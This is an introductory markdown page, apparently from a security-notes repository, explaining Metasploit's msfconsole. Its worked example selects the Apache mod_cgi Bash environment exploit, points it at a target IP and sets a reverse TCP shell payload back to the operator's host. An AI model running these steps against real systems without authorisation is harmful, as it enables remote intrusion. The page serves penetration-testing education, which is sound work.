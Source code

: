 # msfconsole


# 👉 Overview

---

### 👀 What ?

> msfconsole is a command-line interface that provides a user-friendly environment for Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. msfconsole provides an all-in-one centralized console and allows you to create highly complex and sophisticated attacks in real-time.
> 

### 🧐 Why ?

> Understanding msfconsole is crucial because it is one of the most powerful tools for penetration testing. It allows cybersecurity professionals to test their systems' vulnerabilities and understand how attackers might exploit them. It's also widely used in ethical hacking to ensure the security of an environment by identifying potential vulnerabilities.
> 

### ⛏️ How ?

> To use msfconsole, you first need to start it by typing 'msfconsole' in your terminal. Once it's launched, you can search for exploits, use these exploits against your target, and then use post exploitation modules to gather more information or gain more control over the system. Remember to always use this tool ethically and legally.
> 

### ⏳ When ?

> msfconsole became a prevalent tool in the cybersecurity field around 2004 when the Metasploit Project was created. Since then, it has been widely used by cybersecurity professionals around the world.
> 

# ⚙️ Technical Explanations

---

msfconsole is an interface that enables the user to select an exploit and a corresponding payload. The exploit is a specialized piece of code designed to take advantage of a specific vulnerability found within a system. Once the vulnerability is exploited, the payload, which is another piece of code, is delivered and executed within the compromised system. The payload could perform various actions, such as creating a backdoor or extracting valuable data.

In the initial stages, msfconsole communicates with the target system in an attempt to deliver and execute the exploit. If the exploit is successful, it means that the system's vulnerability has been taken advantage of, and the payload is then delivered.

The payload, once executed, gives the user a degree of control over the system, which varies based on the nature of the payload. Often, it provides a shell that allows the user to execute further commands within the system. It's important to note that the use of msfconsole should always be ethical and abide by legal guidelines.

Here's a detailed example of using msfconsole:

1. First, start msfconsole by typing `msfconsole` into your terminal and pressing enter.

```bash
$ msfconsole

```

1. Once msfconsole is launched, you can search for exploits using the `search` command. For instance, if you're looking for exploits related to a specific software like Apache, you can type `search apache`.

```bash
msf6 > search apache

```

1. To use an exploit, such as the "Apache mod_cgi Bash Environment Variable Code Injection" exploit, type `use exploit/apache/http/apache_mod_cgi_bash_env_exec`.

```bash
msf6 > use exploit/apache/http/apache_mod_cgi_bash_env_exec

```

1. Now, you need to set the target by typing `set RHOSTS [target IP]`. Replace `[target IP]` with the IP address of the target system.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.1.10

```

1. Next, you'll need to select a payload. For example, let's use a reverse shell payload with `set PAYLOAD linux/x86/shell_reverse_tcp`.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) > set PAYLOAD linux/x86/shell_reverse_tcp

```

1. Set the local host to your own IP using the `set LHOST [your IP]` command.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.1.20

```

1. Finally, execute the exploit using the `exploit` command.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) > exploit

```

If the exploit is successful, you should now have a shell on the target system, and you can execute commands within the compromised system.

Remember that this is a simplified example and actual exploitation would require a deep understanding of the target system, the selected exploit, and the payload. Always make sure that you have permission to run such activities and are doing so for ethical purposes, such as penetration testing or vulnerability assessment.

# 🖇️ Références

---